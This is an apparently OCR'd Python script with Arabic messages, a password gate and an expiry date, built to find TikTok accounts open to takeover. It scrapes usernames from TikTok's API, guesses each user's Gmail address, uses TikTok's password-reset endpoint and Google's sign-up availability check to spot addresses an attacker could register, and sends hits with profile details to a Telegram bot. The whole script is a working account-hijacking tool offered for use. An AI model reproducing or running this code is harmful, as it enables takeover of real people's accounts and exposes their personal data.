 import os
try:
 from cfonts import render, say
except:
 os.system('pip install python-cfonts')
output = render('AHMAD', colors=['red', 'blue'], align='center')
print(output)
import webbrowser
webbrowser.open('https://t.me/RAVWS')
import time,os
ps = "Ahmad"
def cls():
 os.system("clear")

def pas():
  J = input(f" \n \033[1;35mالباسورد 🙄؟")
  if J ==ps:
   print("\033[2;32mالباسورد صح تهنا في الصيد 😍♥️ ")
   time.sleep(1)
   cls()
  else:
   print('الباسورد غلط راجع صانع الاداة @	EE3300')
   pas()
pas()
os.system("clear")
import requests,colorama,mechanize
from tokenize import cookie_re
import requests
import requests,os,names,json,random
import requests,os,names,random,time
from user_agent import generate_user_agent
from uuid import uuid4
uid = uuid4()
import requests,random,mechanize,time
import requests,random,mechanize,datetime

now = datetime.datetime.today()

now = datetime.datetime.today()
mm = str(now.month)
dd = str(now.day)
yyyy = str(now.year)
hour = str(now.hour)
mi = str(now.minute)
ss = str(now.second)
t=(mm + "/" + dd + "/" + yyyy + " " + hour + ":" + mi + ":" + ss)


hours = (now.hour)
x = datetime.datetime.now()
g= datetime.datetime(2023, 9, 6, 2,)

if (x.strftime("%x"))>(g.strftime("%x")):
 print('\n\n')
 print(" "+'خلصت المده المجانيه راسلني لا تفعيلها @EE3300  😈')
 print('\n\n')
 print(x)
 
 sys.exit(0)
 

if (x.strftime("%x"))==(g.strftime("%x")):
   print('')
   if(x.strftime("%X"))>(g.strftime("%X")):
    print('\n\n')
    print(" "+'خلصت المده المجانيه راسلي لا تفعيلها @EE3300😈🔥')
    print('\n\n')
    print(x)
    
    sys.exit(0)
   else:
    print('')  
else:
    print('')
print('')
from urllib import request

# Change Proxy  .......(-_-) .
proxy = request.ProxyHandler(
 {"http":"127.0.0.1:443"}
 )
request.install_opener(request.build_opener(proxy))
import requests,random,json,threading,datetime
from user_agent import generate_user_agent
E = '\033[1;31m'
R = '\033[1;31m' #احمر
F = '\033[2;32m' #اخضر
C = "\033[1;97m" #ابيض
B = '\033[2;36m'#سمائي
Y = '\033[1;34m' #ازرق فاتح.
X = '\033[1;33m' #اصفر
F = '\033[2;32m'
Z = '\033[1;31m' 
L = "\033[2;35m"  #ارجواني
C = '\033[2;35m' #وردي
B = '\033[2;36m'#سمائي
A = '\033[2;31m' #
url12=requests.get('https://pastebin.com/raw/aZMdkMzB').text
if '1' in url12:
    I=input(f"{A}𝙄{C}𝘿{X} : ➪{X}")
    T=input(f"{A}𝙏{X}𝙊{L}𝙆{B}𝙀{Z}𝙉{F}: ➪{X}")

    def fs():
        countr = ['KW','SA','IN','EG','IR','YE','IQ']
        country=random.choice(countr)
        country1=random.choice(countr)
        if country == 'KW':
            num=30
        elif country == 'IQ' :
            num=10
        elif country == 'SA' :
            num=15
        elif country == 'IN' :
            num=22
        elif country == 'EG' :
            num=32
        elif country == 'IR' :
            num=21
        elif country == 'YE' :
            num=12

        u=f'https://www.tiktok.com/api/recommend/item_list/?aid=1988&app_language=ar&app_name=tiktok_web&battery_info=1&browser_language=ar&browser_name=Mozilla&browser_online=true&browser_platform=Win32&browser_version=5.0%20%28Windows%20NT%2010.0%3B%20Win64%3B%20x64%29%20AppleWebKit%2F537.36%20%28KHTML%2C%20like%20Gecko%29%20Chrome%2F108.0.0.0%20Safari%2F537.36&channel=tiktok_web&cookie_enabled=true&count={num}&device_id=7166382878086088234&device_platform=web_pc&focus_state=true&from_page=fyp&history_len=2&is_fullscreen=false&is_page_visible=true&language=ar&os=windows&priority_region={country}&referer=&region={country1}&screen_height=768&screen_width=1366&tz_name=Asia%2FBaghdad&webcast_language=ar&msToken=V4i0eWl1l4XXNGAUlAfYoNF-N9wq9E8HJ8vL0Vk2d9yR9kE6d8y-NZw7ViWU_jh-ca7dGEQC3DRYLmWvkbkcxagwW8wD20KzqekJ0xn7tF4lHcUfPnsB4rZFTVcHF9gtOZOX2Sgdkm4ITrNp&X-Bogus=DFSzswVYNHvANryXSDbnEcYklTI6&_signature=_02B4Z6wo00001YNx7rgAAIDAXQe2H-Lkar2DceoAAANief'

        r=requests.get(u).json()
        e=len(str(r['itemList'][0]['author']['secUid']))

        for ip in range(0,e):

            try:
                g=str(r['itemList'][ip]['author']['uniqueId'])
                g1=str(r['itemList'][ip]['author']['secUid'])
    
                
                
                u1=f'https://www.tiktok.com/api/user/list/?aid=1988&app_language=ar&app_name=tiktok_web&battery_info=1&browser_language=ar&browser_name=Mozilla&browser_online=true&browser_platform=Win32&browser_version=5.0%20%28Linux%3B%20Android%206.0%3B%20Nexus%205%20Build%2FMRA58N%29%20AppleWebKit%2F537.36%20%28KHTML%2C%20like%20Gecko%29%20Chrome%2F108.0.0.0%20Mobile%20Safari%2F537.36&channel=tiktok_web&cookie_enabled=true&count=30&device_id=7166382878086088234&device_platform=web_mobile&focus_state=true&from_page=user&history_len=3&is_fullscreen=false&is_page_visible=true&maxCursor=0&minCursor=0&os=android&priority_region=US&referer=&region=IQ&scene=67&screen_height=538&screen_width=487&secUid={g1}&tz_name=Asia%2FBaghdad&verifyFp=verify_lcqmc18o_2CWBYokU_ZXPv_4ELO_Ar31_aVH0oNd3tuZ7&webcast_language=ar&msToken=lV8flwO8eKtMWcrEAqcwI4cwiJfipA06jWgGUBRvtDb9Q4F9rabRgfhbeZLTUMBQ9kUxV8GT0Fdfry_vblsdo07d3mq1hmpXjvNuMCfTUpVF-1XP096J3F7FCg4WeKYqVM_O9b_5mnmS2SgYM7o=&X-Bogus=DFSzKwVuOtGANSQiSDbC9QYklT64&_signature=_02B4Z6wo00001BlS8SAAAIDBxySphzU2O3wZQvWAAGXv87'


                r1=requests.get(u1).json()
            
                e1=0
                while 1:
                    e1 +=1
                    try:
                        g=str(r1["userList"][e1]['user']['uniqueId'])
                
                        email=g+"@gmail.com"
                        try:
                            url = f"https://api2-16-h2.musical.ly/aweme/v1/passport/find-password-via-email/?app_language=en&manifest_version_code=2018101933&_rticket=1640498724713&iid=7045258653545678597&channel=googleplay&language=en&fp=&device_type=JKM-LX1&resolution=1080*2137&openudid=12c019d2ff003ae0&update_version_code=2018101933&sys_region=US&os_api=28&is_my_cn=0&timezone_name=Asia%2FBaghdad&dpi=408&carrier_region=IQ&ac=3g&device_id=6842870495047812614&mcc_mnc=41805&timezone_offset=10800&os_version=9&version_code=880&carrier_region_v2=418&app_name=musical_ly&ab_version=8.8.0&version_name=8.8.0&device_brand=HUAWEI&ssmix=a&pass-region=1&build_number=8.8.0&device_platform=android&region=US&aid=1233&ts=1640498723&as=a1f6304c330281f6084477&cp=0e28166a3f85cd68e1OeWi&mas=011642394e9220eefdfcb08b2bbe4539f5ecec2c2c1c0c6c668c1c"
                            data = f"app_language=en&manifest_version_code=2018101933&_rticket=1640498724713&iid=7045258653545678597&channel=googleplay&language=en&fp=&device_type=JKM-LX1&resolution=1080*2137&openudid=12c019d2ff003ae0&update_version_code=2018101933&sys_region=US&os_api=28&is_my_cn=0&timezone_name=Asia%2FBaghdad&dpi=408&email={email}&retry_type=no_retry&carrier_region=IQ&ac=3g&device_id=6842870495047812614&mcc_mnc=41805&timezone_offset=10800&os_version=9&version_code=880&carrier_region_v2=418&app_name=musical_ly&ab_version=8.8.0&version_name=8.8.0&device_brand=HUAWEI&ssmix=a&pass-region=1&build_number=8.8.0&device_platform=android&region=US&aid=1233"
                            af = requests.post(url, data=data).text
                        except:
                            pass
                        if  '"Sent successfully"' in af:
                            url = 'https://android.clients.google.com/setup/checkavail'
                            hed = {
                        'Content-Length':'98',
                        'Content-Type':'text/plain; charset=UTF-8',
                        'Host':'android.clients.google.com',
                        'Connection':'Keep-Alive',
                        'user-agent':str(generate_user_agent()),}
                            data = json.dumps({
                        'username':email,
                        'version':'3',
                        'firstName':'sarot',
                        'lastName':'devtelegram'})
                            res = requests.post(url,data=data,headers=hed)
                            if res.json()['status'] == 'SUCCESS':
                                url2=f'https://api.dlyar-dev.tk/info-tiktok.json?user={g}'

                                req=requests.get(url2).json()
                                id=req['id']
                                us=req['user']
                                name=req['name']
                                fol=req['followers']
                                fols=req['following']
                                uid=req['uid']
                                likes=req['likes']
                                country=req['country']

                                info=f"""
𒋨==━𓆩Ā𝗛𝗺𝗮𝗗𓆪━==𒋨
😈 - 𝗡𝗜𝗖𝗞𝗡𝗮𝗺𝗘 »{name}
😈 - 𝗨𝗦𝗘𝗥𝗡𝗮𝗺𝗘 »@{us}
😈 - 𝗘𝗺𝗮𝗜𝗟 »{g}@gmail.com
😈 - 𝗨𝗜𝗗 »{id}
😈 - 𝗙𝗢𝗟𝗟𝗢𝗪𝗘𝗥𝗦 »{fol}
😈 - 𝗙𝗢𝗟𝗟𝗢𝗪𝗜𝗡𝗚 »{fols}
😈 - 𝗟𝗜𝗞𝗘𝗦 »{likes}
😈 - 𝗖𝗢𝗨𝗡𝗧𝗥𝗬  »{country}
😈 - 𝗟�𝗡𝗞  »https://www.tiktok.com/@{us}
𒋨==━𓆩Ā𝗛𝗺𝗮𝗗𓆪━==𒋨
😈 - ᗷY➠@EE3300⸎@EE3300   """
                                print(F+info)
                                requests.post(f'https://api.telegram.org/bot{T}/sendMessage?chat_id={I}&text={info}')
                            else:
                                print(f" 𝗕{F}𝗮{L}𝗗 𝗚{B}𝗺{Z}𝗘{X}𝗜{E}𝗟{R}  : {email}")
                        elif "fatal_item_ids" in af :
                            print(f"𝗚{L}𝗮{F}𝗗{X} 𝗧{X}𝗜{Z}𝗞{B}: {email}")
                    except:fs()
            
            except:fs()
    prox_list=[]
    for i in range(6):
        t = threading.Thread(target=fs)
        t.start()
        prox_list.append(t)
else:
    def hello():
        x = datetime.datetime.now()
        
        if(x) > (g) or (x) == (g):
            
            exit()
            
            
        else:
            pass
    hello()
